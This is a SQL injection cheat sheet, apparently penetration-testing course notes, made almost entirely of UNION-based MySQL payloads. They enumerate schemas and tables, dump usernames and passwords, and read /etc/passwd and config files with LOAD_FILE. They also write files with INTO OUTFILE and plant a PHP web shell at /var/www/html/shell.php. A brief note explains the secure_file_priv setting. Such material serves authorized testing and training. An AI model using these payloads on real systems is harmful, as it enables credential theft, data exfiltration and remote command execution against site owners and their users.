 ### Database Enumeration
View current database and others
```sql
UNION SELECT 1,database()-- -
UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -

UNION SELECT group_concat(schema_name) from INFORMATION_SCHEMA.SCHEMATA-- -
```
View tables from database
```sql
UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='database_name'-- -
```
View column names within table
```sql
UNION SELECT 1,COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='table_name'-- -
```
Dump data
```sql
UNION SELECT username, password from database_name.table_name-- -
```
Test payload
```sql
asd' union select 1,username,password,4 from ilfreight.users-- -
```
### Reading Files
Check current user
```sql
UNION SELECT 1,user()-- -
UNION SELECT 1,current_user()-- -
UNION SELECT 1,user from mysql.user-- -
```
Check super privileges (Y/N)
```sql
UNION SELECT 1, super_priv from mysql.user-- -
UNION SELECT 1, super_priv from mysql.user where user='current_user'-- -
```
Check all privileges (FILE)
```sql
UNION SELECT 1, grantee, privilege_type FROM information_schema.user_privileges
UNION SELECT 1, grantee, privilege_type FROM information_schema.user_privileges where grantee="'root'@'localhost'"-- -
```
Read file with `LOAD_FILE()` (view source code)
```SQL
UNION SELECT 1, LOAD_FILE("/etc/passwd")-- -
UNION SELECT 1, LOAD_FILE("/var/www/html/config.php")-- -
```
Test payload
```sql
asd' union select 1, LOAD_FILE("/var/www/html/config.php"),3,4-- -
```
### RCE & Writing Files
Check value of `secure_file_priv` (empty is good, NULL is bad)
```sql
UNION SELECT 1, variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
Write files using `INTO OUTFILE`
```sql
UNION SELECT 1, 'Pwn3d!' INTO OUTFILE '/var/www/html/leavemehere.txt'-- -
```
RCE via `INTO OUTFILE`
```sql
UNION SELECT null, "<?php system($_REQUEST[cmd]); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```
Test payload
```sql
asd' UNION SELECT '', "<?php system($_REQUEST["cmd"]); ?>",'','' INTO OUTFILE '/var/www/html/shell.php'-- -
```

secure_file_priv may be set as follows:

    If empty, the variable has no effect, which is not a secure setting.
    If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
    If set to NULL, the server disables import and export operations.
